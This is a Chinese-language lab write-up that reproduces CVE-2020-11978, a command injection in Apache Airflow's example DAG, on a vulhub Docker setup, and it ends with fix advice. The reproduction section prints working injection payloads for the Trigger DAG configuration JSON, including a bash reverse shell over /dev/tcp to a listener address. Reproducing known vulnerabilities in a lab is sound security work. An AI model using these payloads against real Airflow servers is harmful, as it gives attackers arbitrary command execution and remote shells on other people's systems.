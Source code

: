 # Airflow dag 命令注入漏洞

## 漏洞编号

```
CVE-2020-11978
```



## 漏洞描述

Airflow是一个使用python语言编写的data pipeline调度和监控工作流的平台

Airflow是通过DAG（Directed acyclic graph有向无环图）来管理任务流程的任务调度工具，不需要知道业务数据的具体内容，设置任务的依赖关系即可实现任务调度



这个平台拥有和Hive，Presto，Mysql，HDFSPostgres等数据源之间交互的能力，并且提供了钩子（hook）使其拥有更好的扩展性。

除了一个命令行界面，该工具还提供了一个基于web的用户界面可以可视化管道的依赖关系，监控进度，触发任务等



Apache Aiflow是一款开源的，分布式任务调度框架，在其1.10.10版本及以前的示例DAG中存在一处命令注入漏洞，未授权的访问者可以通过这个漏洞在Worker中执行任意命令



## 影响范围

Apache Airflow <= 1.10.10



## 环境配置

vulhub

```
# 初始化数据库
docker-compose run airflow-init
# 启动服务
docker-compose up -d
```

![image-20250409184216579](./assets/image-20250409184216579.png)

![image-20250409184232684](./assets/image-20250409184232684.png)

```
docker-compose ps
```

![image-20250409184247795](./assets/image-20250409184247795.png)

验证

访问192.168.23.134:8080

![image-20250409184332814](./assets/image-20250409184332814.png)





## 漏洞复现

访问192.168.23.134:8080,进入airflow管理端，将example_trigger_target_dag前面的Off改为On

![image-20250409184557512](./assets/image-20250409184557512.png)

![image-20250409184605977](./assets/image-20250409184605977.png)



进入example_trigger_target_dag页面，点击Trigger DAG，进入到调试页面

![image-20250409184651218](./assets/image-20250409184651218.png)



![image-20250409184704669](./assets/image-20250409184704669.png)

在Configuration JSON中输入：

```
{"message":"'\";touch /tmp/success;#"}
```

![image-20250409184908731](./assets/image-20250409184908731.png)



然后点击Trigger执行



进入容器中验证

```
docker ps
docker exec -it b4d77a9ca2c5  /bin/bash
ls /tmp
```

![image-20250409185038494](./assets/image-20250409185038494.png)

![image-20250409185103249](./assets/image-20250409185103249.png)

成功执行



尝试反弹shell

本地开启监听

![image-20250409185142302](./assets/image-20250409185142302.png)



```
{"message":"'\";bash -i >& /dev/tcp/192.168.23.134/283 0>&1;#"}
```

![image-20250409185314336](./assets/image-20250409185314336.png)

执行



![image-20250409185342139](./assets/image-20250409185342139.png)

成功弹回shell



## 修复建议

- 升级到最新版本

- 删除或禁用默认DAG（可自行删除或在配置文件中禁用默认DAGload_examples=False）